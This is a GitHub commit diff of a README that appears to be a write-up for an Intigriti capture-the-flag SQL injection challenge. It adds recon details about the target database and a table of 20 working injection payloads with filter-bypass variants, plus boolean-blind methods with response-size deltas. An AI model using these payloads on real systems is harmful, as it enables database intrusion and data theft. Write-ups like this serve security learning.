

Before and after one commit to Rajib-Mahmud/intigriti-0926, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Enhance README with author and injection details
Updated the README to include additional details about the challenge author, write-up, and various SQL injection techniques tested. Improved clarity and formatting throughout the document.

```diff
--- a/README.md
+++ b/README.md
@@ -119,35 +122,60 @@ x' UNION SELECT note FROM secret_vault LIMIT 1--
 | db user | `gallery@10.18.49.50` |
 | hostname | `db-7df4c4d979-qvq6s` · k8s pod |
 | os | Linux |
-| mysql | 8.0.46 Community |
+| mysql | 8.0.46 Community (GPL) |
+| databases visible | `critter_gallery`, `information_schema`, `performance_schema` |
+| port / socket | `3306` · `/var/run/mysqld/mysqld.sock` |
+| datadir / tmpdir | `/var/lib/mysql/` · `/tmp` |
+| charset / timezone | `utf8mb4` · `SYSTEM` |
+| server uuid | `ab64aa3b-b5a5-11f1-860b-b627227199c4` |
 | secure_file_priv | `/var/lib/mysql-files/` — LOAD_FILE / OUTFILE blocked |
 
 ## Arsenal
 
-The injection point is wildly permissive — **37 techniques** confirmed live. A sample per class:
+The injection point is wildly permissive. All **37 techniques** below were tested live against the target and confirmed working — the full method list, not a sample.
 
-**Direct · single request**
+**Direct extraction · single request (20)**
 
 | # | Method | Payload |
 |---|---|---|
-| 01 | UNION | `x' UNION SELECT note FROM secret_vault LIMIT 1-- ` |
-| 04 | comment | `x'/**/UNION/**/SELECT/**/note/**/FROM/**/secret_vault-- ` |
-| 07 | JSON_OBJECT | `x' UNION SELECT JSON_OBJECT('flag',note) FROM secret_vault-- ` |
-| 08 | hex LIKE | `... WHERE note LIKE 0x494e544947524954497b2525-- ` |
-| 15 | mixed case | `x' uNiOn SeLeCt note FrOm secret_vault-- ` |
-| 21 | HPP | `?pic=Zm94&pic=<sqli>` |
+| 01 | UNION SELECT | `x' UNION SELECT note FROM secret_vault LIMIT 1-- ` |
+| 02 | UNION ALL SELECT | `x' UNION ALL SELECT note FROM secret_vault LIMIT 1-- ` |
+| 03 | UNION DISTINCT SELECT | `x' UNION DISTINCT SELECT note FROM secret_vault LIMIT 1-- ` |
+| 04 | `/**/` comment bypass | `x'/**/UNION/**/SELECT/**/note/**/FROM/**/secret_vault-- ` |
+| 05 | Tab-separated keywords | `x'\tUNION\tSELECT\tnote\tFROM\tsecret_vault-- ` |
+| 06 | Newline-separated keywords | `x'\nUNION\nSELECT\nnote\nFROM\nsecret_vault-- ` |
+| 07 | JSON_OBJECT() | `x' UNION SELECT JSON_OBJECT('flag',note) FROM secret_vault-- ` |
+| 08 | Hex-encoded string literal | `... WHERE note LIKE 0x494e544947524954497b2525-- ` |
+| 09 | Subquery in SELECT | `x' UNION SELECT (SELECT note FROM secret_vault LIMIT 1)-- ` |
+| 10 | Subquery, no spaces | `x'UNION(SELECT(note)FROM(secret_vault)LIMIT 1)-- ` |
+| 11 | SUBSTR() / MID() | `x' UNION SELECT SUBSTR(note,1,50) FROM secret_vault-- ` |
+| 12 | ELT() | `x' UNION SELECT ELT(1,note) FROM secret_vault-- ` |
+| 13 | MAKE_SET() / COALESCE() / IFNULL() | `x' UNION SELECT COALESCE(note,'null') FROM secret_vault-- ` |
+| 14 | HTTP Parameter Pollution | `?pic=<b64 fox>&pic=<b64 sqli>` — second `pic=` wins |
+| 15 | `#` comment terminator | `x' UNION SELECT note FROM secret_vault LIMIT 1#` |
+| 16 | `-- -` comment terminator | `x' UNION SELECT note FROM secret_vault LIMIT 1-- -` |
+| 17 | `/*!50000*/` versioned comment | `x' /*!50000UNION*/ /*!50000SELECT*/ note FROM secret_vault-- ` |
+| 18 | `/*! */` inline comment | `x'/*!UNION SELECT note FROM secret_vault LIMIT 1*/-- ` |
+| 19 | Mixed case | `x' uNiOn SeLeCt note FrOm secret_vault-- ` |
+| 20 | Session variable assignment | `x' UNION SELECT @v:=(SELECT note FROM secret_vault LIMIT 1)-- ` |
 
-**Boolean blind · ~14 B delta**
+**Boolean blind · page-size delta (11)**
 
-| # | Method | true | false |
+| # | Method | true (B) | false (B) |
 |---|---|---|---|
-| 22 | IF() | 4136 | 4122 |
-| 23 | CASE WHEN | 4158 | 4144 |
-| 24 | STRCMP() | 4138 | 4124 |
-| 28 | REGEXP | 4137 | 4122 |
-| 30 | EXISTS() | 4141 | 4126 |
+| 21 | IF() | 4136 | 4122 |
+| 22 | CASE WHEN | 4158 | 4144 |
+| 23 | STRCMP() | 4138 | 4124 |
+| 24 | BETWEEN | 4154 | 4140 |
+| 25 | ASCII()=value | 4124 | 4111 |
+| 26 | String comparison `>` | 4134 | 4120 |
+| 27 | REGEXP | 4137 | 4122 |
+| 28 | COUNT(*) | 4144 | 4129 |
+| 29 | EXISTS() | 4141 | 4126 |
+| 30 | XOR | 4131 | 4447 |
+| 31 | NOT IN | 4137 | 0 |
 
-**Time blind**
+**Time-based blind (3)**
 
 | # | Method | hit | miss |
 |---|---|---|---|
```
Also changed, not shown: other parts of README.md (+30 -4 lines).
